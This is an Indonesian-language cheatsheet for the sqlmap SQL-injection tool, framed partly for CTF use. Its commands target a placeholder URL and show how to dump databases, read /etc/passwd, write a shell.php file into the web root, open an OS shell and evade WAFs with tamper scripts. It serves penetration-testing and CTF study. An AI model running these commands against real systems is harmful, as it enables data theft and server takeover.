 # SQLMap Cheatsheet

## 1. Basic Usage

### 1.1. Menentukan Target

```bash
sqlmap -u "http://target.com/vuln.php?id=1"
```

### 1.2. Menentukan Parameter POST

```bash
sqlmap -u "http://target.com/vuln.php" --data="id=1"
```

### 1.3. Menentukan Cookie

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --cookie="PHPSESSID=xxxx"
```

### 1.4. Menampilkan Database

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --dbs
```

### 1.5. Menampilkan Tables pada Database

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D nama_database --tables
```

### 1.6. Menampilkan Columns pada Table

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D nama_database -T nama_tabel --columns
```

### 1.7. Dump Data dari Table

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D nama_database -T nama_tabel --dump
```

## 2. Advanced Usage

### 2.1. Membaca File dari Server

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd"
```

### 2.2. Menulis File ke Server

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --file-write="localfile.txt" --file-dest="/var/www/html/shell.php"
```

### 2.3. Mendapatkan Reverse Shell

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --os-shell
```

### 2.4. Bypass WAF dengan --tamper

- Lihat daftar tamper script:
  ```bash
  sqlmap --list-tampers
  ```
- Contoh penggunaan tamper:
  ```bash
  sqlmap -u "http://target.com/vuln.php?id=1" --tamper="between,randomcase"
  ```

## 3. Tips Tambahan

- Gunakan `--batch` untuk auto-yes semua prompt.
- Gunakan `--risk=3 --level=5` untuk pengujian lebih dalam.

Referensi: [https://sqlmap.org/](https://sqlmap.org/)

## 4. Penggunaan Aman untuk CTF

**Catatan:** Pada CTF, dilarang melakukan brute force yang dapat mengganggu peserta lain. Gunakan opsi berikut untuk membatasi request:

- `--delay=2` : Memberi jeda 2 detik antar request (ganti sesuai kebutuhan).
- `--threads=1` : Gunakan thread minimal (default 1) agar tidak membebani server.

Contoh:

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --delay=2 --threads=1
```

## 5. Penggunaan Proxy

- `--proxy="http://127.0.0.1:8080"` : Mengarahkan traffic sqlmap ke proxy (misal Burp Suite/ZAP).

Contoh:

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --proxy="http://127.0.0.1:8080"
```

---

